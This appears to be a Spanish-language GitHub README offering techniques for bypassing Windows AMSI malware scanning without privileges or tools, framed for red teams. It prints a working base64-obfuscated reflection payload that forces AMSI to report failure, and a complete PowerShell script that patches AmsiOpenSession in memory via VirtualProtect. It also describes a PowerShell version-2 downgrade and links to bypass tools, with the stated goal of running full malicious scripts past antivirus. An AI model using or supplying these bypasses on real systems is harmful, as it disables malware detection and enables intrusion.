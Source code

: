 # AMSI BYPASS WITHOUT TOOLS 2023

En esta investigación se han probado numerosos payloads y técnicas sin exito, lo que se detalla a continuación funciona a 08/10/2023.
Destacar que todas estas soluciones se pueden realizar desde un usuario sin privilegios y sin la necesidad de herramientas, en caso de contar con privilegios o herramientas se podrían utilizar alguna más como modificar alguna clave de registro etc.

Con el lanzamiento de Windows 10, Microsoft introdujo AMSI, una interfaz de programación de aplicaciones (API) que permite la detección de malware en una amplia variedad de lenguajes de programación, incluyendo PowerShell. AMSI actúa como un puente que conecta las aplicaciones con el software antivirus.

Si desean profundizar más en la teoría visitien https://learn.microsoft.com/es-es/windows/win32/amsi/how-amsi-helps.


![image](https://github.com/ivancabrera02/AMSI/assets/103500562/a84a620b-b4bf-40c3-adf0-87922d478b87)

## Que detecta AMSI?

* Control de cuentas de usuario o UAC (elevación de privilegios de archivos EXE, COM y MSI, o instalación de ActiveX)
* PowerShell (evaluación de los scripts, el uso interactivo y el código dinámico)
* Windows Script Host (wscript.exe y cscript.exe)
* JavaScript y VBScript
* Macros de VBA de Office

## Técnicas de evasión para Red Team

### Separar Strings

Por hacer una breve introducción pondré el típico ejemplo que no puede faltar como es el separar strings.

![image](https://github.com/ivancabrera02/AMSI/assets/103500562/afc8d173-246c-4fab-9741-5288420747d7)

### Base64

Podemos realizar lo mismo en base64. Ignorar el error de sintaxis :)

![image](https://github.com/ivancabrera02/AMSI/assets/103500562/3758ebe8-95dd-48fe-bf8f-b3c4ae1a9991)

### XOR

O utilizando XOR.

![image](https://github.com/ivancabrera02/AMSI/assets/103500562/8a20cfca-0305-48cb-a8fe-c6e182c0909d)

Esto no está mal pero la idea es poder ejecutar scripts 'maliciosos' completos.

### Bajando versión

Una idea sería bajar la versión de powershell utilizando: powershell -version 2

![image](https://github.com/ivancabrera02/AMSI/assets/103500562/68e79214-c511-4be0-ac7d-5cd657c546cc)

![image](https://github.com/ivancabrera02/AMSI/assets/103500562/020611a3-a014-4c93-b839-3d2c3cbb0726)

En la primera imagen se usa la versión 3 de powershell y como se puede apreciar se bloquea el script, en cambio en la segunda imagen usando una versión inferior se ejecuta sin problemas.

### Payload base64

Otra de las que mejor funciona es usando el siguiente payload en base64:

[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

![image](https://github.com/ivancabrera02/AMSI/assets/103500562/0be5c1d8-18e5-4603-ae85-edcb30f95d79)

### Error

Forzando errores a amsi

![image](https://github.com/ivancabrera02/AMSI/assets/103500562/97575917-2f3f-451a-929c-780709a38585)

### Script

function lookFuncAddr{
Param($moduleName, $functionName)
$assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
Where-Object {$_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll')}).GetType('Microsoft.Win32.UnsafeNativeMethods')
$tmp=@()
$assem.GetMethods() | ForEach-Object{If($_.Name -eq 'GetProcAddress') {$tmp+=$_}}
return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}
function getDelegateType{
Param(
[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
[Parameter(Position = 1)] [Type] $delType = [Void]
)
$type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
[System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType',
'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
$type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
$type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
return $type.CreateType()
}
[IntPtr]$amsiAddr = lookFuncAddr amsi.dll AmsiOpenSession
$oldProtect = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookFuncAddr kernel32.dll VirtualProtect),
(getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($amsiAddr, 3, 0x40, [ref]$oldProtect)
$3b = [Byte[]] (0x48, 0x31, 0xC0)
[System.Runtime.InteropServices.Marshal]::Copy($3b, 0, $amsiAddr, 3)
$vp.Invoke($amsiAddr, 3, 0x20, [ref]$oldProtect)

![image](https://github.com/ivancabrera02/AMSI/assets/103500562/ecab53cd-035c-47ef-b863-84b6f2bf147d)


## Herramientas y recursos extra

* https://amsi.fail/
* https://github.com/tokyoneon/Chimera
* https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
